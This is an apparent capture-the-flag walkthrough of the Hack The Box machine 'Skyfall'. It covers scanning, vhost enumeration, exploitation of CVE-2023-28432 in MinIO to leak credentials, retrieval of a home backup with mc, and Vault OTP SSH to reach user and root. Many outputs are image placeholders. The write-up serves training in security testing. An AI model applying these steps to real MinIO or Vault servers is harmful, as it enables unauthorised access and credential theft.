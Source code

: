 ```yaml
---
title: HTB-Skyfall
draft: false
tags:
  - htb
  - linux
  - insane
---
```

pic here

## Information Gathering

`rustscan --addresses 10.10.11.254 --range 1-65535`

![alt text](image.png)

`sudo nmap -sVC -p 80 10.10.11.254`

![alt text](image-1.png)

## Enumeration
### HTTP - TCP 80

![alt text](image-2.png)

skyfall.htb

![alt text](image-3.png)

`sudo gobuster vhost --append-domain -u http://skyfall.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt`

![alt text](image-4.png)

### demo.skyfall.htb
guest:guest

![alt text](image-5.png)

![alt text](image-6.png)

MinioMetrics

/metrics

![alt text](image-7.png)

`%0a`

![alt text](image-8.png)

When I scroll down the page, I come across the MinIO endpoint.

`http://prd23-s3-backend.skyfall.htb/minio/v2/metrics/cluster` /etc/hosts

![alt text](image-9.png)


### prd23-s3-backend.skyfall.htb


![alt text](image-10.png)


## Shel as askyy
### CVE-2023-28432


![alt text](image-11.png)

https://github.com/acheiii/CVE-2023-28432/

![alt text](image-12.png)

`POST /minio/bootstrap/v1/verify`

![alt text](image-13.png)

```
user token

```

### MinIO Client

**mc**** is a command-line client for **MinIO**, an open-source object storage server compatible with Amazon S3 cloud storage service.



https://min.io/docs/minio/linux/reference/minio-mc.html#id2

![alt text](image-14.png)

`mc alias set myminio http://prd23-s3-backend.skyfall.htb 5GrE1B2YGGyZzNHZaIww GkpjkmiVmpFuL2d3oRx0`

![alt text](image-15.png)

`mc ls myminio`

![alt text](image-16.png)

`mc ls --recursive --versions myminio`

![alt text](image-17.png)

`mc cp --vid 2b75346d-2a47-4203-ab09-3c9f878466b8 myminio/askyy/home_backup.tar.gz ~/Documents/htb/skyfall/home_backup.tar.gz`

![alt text](image-18.png)

### Vault

`sudo tar xzvf home_backup.tar.gz`

![alt text](image-19.png)


`.bashrc`

![alt text](image-20.png)

```
exppot
export
```

prd23-vault-internal.skyfall.htb

/etc/hosts

https://developer.hashicorp.com/vault/docs/secrets/ssh/one-time-ssh-passwords


`wget https://releases.hashicorp.com/vault/1.15.5/vault_1.15.5_linux_amd64.zip`

`
export`


`./vault login`

![alt text](image-21.png)

`./vault token capabilities ssh/roles`

![alt text](image-23.png)

`./vault list ssh/roles`

![alt text](image-24.png)

`./vault ssh -role dev_otp_key_role -mode OTP -strict-host-key-checking=no askyy@10.10.11.254`

![alt text](image-22.png)

## Privesc: askyy to root
### Sudoers

`sudo -l`

![alt text](image-25.png)

`sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml`

![alt text](image-26.png)

`sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -vd`

![alt text](image-27.png)

![alt text](image-28.png)

![alt text](image-29.png)

![alt text](image-30.png)



sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -vd 


### SSH as root

```
exploirt
export
```

![alt text](image-31.png)

`./vault ssh -role admin_otp_key_role -mode OTP -strict-host-key-checking=no root@10.10.11.254`

![alt text](image-32.png)

## References
- https://github.com/acheiii/CVE-2023-28432/
- https://min.io/docs/minio/linux/reference/minio-mc.html#id2
